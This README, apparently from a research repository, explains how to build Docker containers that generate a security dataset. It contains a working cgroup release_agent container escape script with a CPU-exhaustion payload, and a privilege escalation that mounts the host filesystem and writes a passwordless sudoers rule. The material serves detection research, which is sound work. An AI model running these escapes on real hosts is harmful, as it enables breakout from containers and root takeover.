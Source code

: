 # Containers
There are five containers used to create the dataset.

* denial of service container
* privilege escalation container
* prometheus database container
* grafana web server container
* internet of things container

The denial of service and privilege escalation were derived from the following.

https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

The prometheus and grafana are from awesome-compose.  Finally, the internet of things container was developed to communicate with remote endpoints, however, due to the size and specialized configuration, it is not provided.

The following sections describe each of the containers.


## Denial of Service Container

The denial of service container launches a container escape and associated denial of service attack.

* You can load the pre-confgured container as follows.

```bash
docker load < umbrella_ubuntu_dos.tar.gz
```

* You can create and configure new container.

To create and configure a new container follow the below steps.

Get the latest ubuntu image

```bash
docker pull ubuntu
```

Using original ubuntu, install nano, add escape.sh and stress.txt (see below), then commit to save the container configuration.

```bash
docker run --privileged --name=ESCAPE_DOS --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

From within container

```bash
apt-get update
apt-get install nano
nano escape.sh
...
(save)
chmod +x escape.sh

nano stress.txt
...
(save)
```

In another host terminal, save currently running ubuntu container to ubuntu_escape image.

```bash
docker commit ESCAPE_DOS ubuntu_escape
```

You can now exit the ubuntu container.

From a host terminal, start the ubuntu_escape container with reduced security.

```bash
docker run --name=ESCAPE_DOS --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu_escape bash
```

Finally, from other host terminal, execute escape.sh in ubuntu_escape.  This launches the attack (you can use top to see the increased CPU usage).  Note that [scenarioDos.py](../src/scenarioDos.py) uses this to launch the attack.
```bash
docker exec -it ESCAPE_DOS /escape.sh
```

### Escape

The contents of the escape.sh file should be as follows.

```bash
#!/bin/sh
mkdir /tmp/cgrp
mount -t cgroup -o memory cgroup_memory /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
cat stress.txt > /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

### Attack

The contents of the stress.txt file should be as follows.  The final line indicates to consume 2 processors for 20 seconds.

```bash
#!/bin/bash
stress() {
  (
    pids=""
    cpus=${1:-1}
    seconds=${2:-60}
    echo loading $cpus CPUs for $seconds seconds
    trap 'for p in $pids; do kill $p; done' 0
    for ((i=0;i<cpus;i++)); do while : ; do : ; done & pids="$pids $!"; done
    sleep $seconds
  )
}
stress 2 20
```

## Privilege Escalation Container

The privilege escalation container launches a container escape and associated privilege escalation attack.

* You can load the pre-confgured container as follows.

```bash
docker load < umbrella_alpine_privesc.tar.gz
```

* You can create and configure a new container.

To create and configure a new container follow the below steps.

Create container from alpine image.

### Escape

The privilege escape is really accomplished by the mounting of a volume during container building.

```
FROM alpine
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
VOLUME $WORKDIR
WORKDIR $WORKDIR
```

Execute the following command to build container.

```bash
docker build -t priv-container .
```

You can execute the following command to run the container.  Note that this is done in the [scenarioPrivesc.py](../src/scenarioPrivesc.py).

```bash
docker run --name ESCAPE_PRIVESC -v /:/privesc -it priv-container /bin/sh
```

### Attack

The attack assumes the user *testuser* aleady exists.  The *testuser* should be in the sudo'ers list but requires a password (the attack changes this to password-less).  From within the container, the following is executed.

```bash
echo "testuser ALL=(ALL) NOPASSWD: ALL" > /privesc/etc/sudoers.d/010_testuser-nopasswd
```


## Prometheus-Grafana Container

The prometheus-grafana container is take from awesome-compose and can be started and stopped with the following.  Note that this is done in the [scenarioGrafana.py](../src/scenarioGrafana.py).

```bash
sudo docker-compose -f prometheus-grafana/docker-compose.yml up --no-start
sudo docker-compose -f prometheus-grafana/docker-compose.yml start
```

```bash
sudo docker-compose -f prometheus-grafana/docker-compose.yml stop
sudo docker-compose -f prometheus-grafana/docker-compose.yml rm -f
```

## Internet of Things Container

The IoT container used for the datasets is described here.  We do not provide the container because it exceeded github's maximum file size.

The IoT container is based on the ubuntu image.  It was then configured to setup the tunslip interface to communicate with an IEEE 802.15.4 wireless dongle over /tty/ACM0.  The dongle is programmed with the contiki-ng rpl-border-router example using TSCH.

The remote endpoints are the Nordic nRF-52480 development boards programmed with the contiki-ng rpl-udp example using TSCH.  The endpoints take a temperature sensor reading every five seconds and send to the UDP server (port 8765) running in the Docker IoT container.

This container setup works for both the Umbrella edge device (built-in nRF dongle) and the Linux Raspian VM (USB attached nRF dongle).
